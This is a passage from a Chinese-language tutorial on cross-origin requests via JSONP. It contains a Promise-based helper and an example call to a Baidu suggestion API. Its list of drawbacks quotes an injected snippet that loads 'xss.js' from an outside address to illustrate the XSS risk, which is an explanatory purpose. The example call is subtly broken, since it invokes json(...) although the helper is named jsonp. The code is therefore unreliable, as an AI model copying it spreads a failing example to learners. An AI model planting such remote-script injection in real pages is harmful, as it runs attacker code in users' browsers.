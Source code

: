 ## 实现跨域的方式

### 一、使用 jsonp 跨域

使用场景：当自己的项目前端资源和后端部署在不同的服务器地址上，或者其他的公司需要访问自己对外公开的接口，需要实现跨域获取数据，如百度搜索。

```
// 封装 jsonp 跨域请求的方法
function jsonp({ url, params, cb }) {
    return new Promise((resolve, reject) => {
        // 创建一个 script 标签帮助我们发送请求
        let script = document.createElement("script");
        let arr = [];
        params = { ...params, cb };

        // 循环构建键值对形式的参数
        for (let key in params) {
            arr.push(`${key}=${params[key]}`);
        }

        // 创建全局函数
        window[cb] = function(data) {
            resolve(data);
            // 在跨域拿到数据以后将 script 标签销毁
            document.body.removeChild(script);
        };

        // 拼接发送请求的参数并赋值到 src 属性
        script.src = `${url}?${arr.join("&")}`;
        document.body.appendChild(script);
    });
}

// 调用方法跨域请求百度搜索的接口
json({
    url: "https://sp0.baidu.com/5a1Fazu8AA54nxGko9WTAnF6hhy/su",
    params: {
        wd: "jsonp"
    },
    cb: "show"
}).then(data => {
    // 打印请求回的数据
    console.log(data);
});
```

缺点：

- 只能发送 get 请求 不支持 post、put、delete；
- 不安全，容易引发 xss 攻击，别人在返回的结果中返回了下面代码。

```
`let script = document.createElement('script');
script.src = "http://192.168.0.57:8080/xss.js";
document.body.appendChild(script);`;
```
